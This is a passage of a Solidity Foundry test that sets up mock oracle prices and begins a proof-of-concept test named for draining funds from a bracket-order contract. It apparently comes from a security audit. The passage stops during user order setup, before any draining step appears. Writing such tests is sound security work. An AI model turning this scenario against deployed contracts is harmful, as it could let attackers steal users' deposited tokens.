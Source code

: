```solidity
        automationMaster.registerSubKeepers(stopLimitContract, bracketContract);
        vm.stopPrank();

        //so that the publish time is 90
        vm.warp(90);
        //initial price of tokenIn set to 3000
        setTokenPrice(3000, TOKEN_IN_PRICE_FEED_ID);
        //initial price of tokenOut set to 2345
        setTokenPrice(2345, TOKEN_OUT_PRICE_FEED_ID);
    }

    //functions for updating token oracle prices
    function createTokenUpdate(int64 price, bytes32 id) private view returns (bytes[] memory) {
        bytes[] memory updateData = new bytes[](1);
        updateData[0] = pyth.createPriceFeedUpdateData(
            id,
            price * 1e8, // price
            10 * 1e8, // confidence
            -8, // exponent
            price * 1e8, // emaPrice
            10 * 1e8, // emaConfidence
            uint64(block.timestamp) // publishTime
        );

        return updateData;
    }

    function setTokenPrice(int64 price, bytes32 id) private {
        bytes[] memory updateData = createTokenUpdate(price, id);
        uint256 value = pyth.getUpdateFee(updateData);
        vm.deal(address(this), value);
        pyth.updatePriceFeeds{value: value}(updateData);
    }

    //modifier because of stale price returned
    modifier okuFreshPrice() {
          //necessary because of oku oracle returning stale time
          vm.warp(160);
          _;
     }

     function testFundsCanBeDrainedFromBracketContract() public okuFreshPrice {
             //1. users create orders and have tokens in bracketContract
             address user1 = makeAddr("user1");
             address user2 = makeAddr("user2");
             address user3 = makeAddr("user3");

             vm.startPrank(user1);
             TestERC20(address(tokenIn)).mint(10e18);
             tokenIn.approve(address(bracketContract), 10e18);
             bracketContract.createOrder("", 5e8, 25e7, 10e18, tokenIn, tokenOut, user1, 20, 20, 100, false, "");
             vm.stopPrank();

             vm.startPrank(user2);
             TestERC20(address(tokenIn)).mint(10e18);
             tokenIn.approve(address(bracketContract), 10e18);
             bracketContract.createOrder("", 4e8, 2e8, 10e18, tokenIn, tokenOut, user2, 20, 20, 100, false, "");
             vm.stopPrank();

             vm.startPrank(user3);
             TestERC20(address(tokenIn)).mint(10e18);
```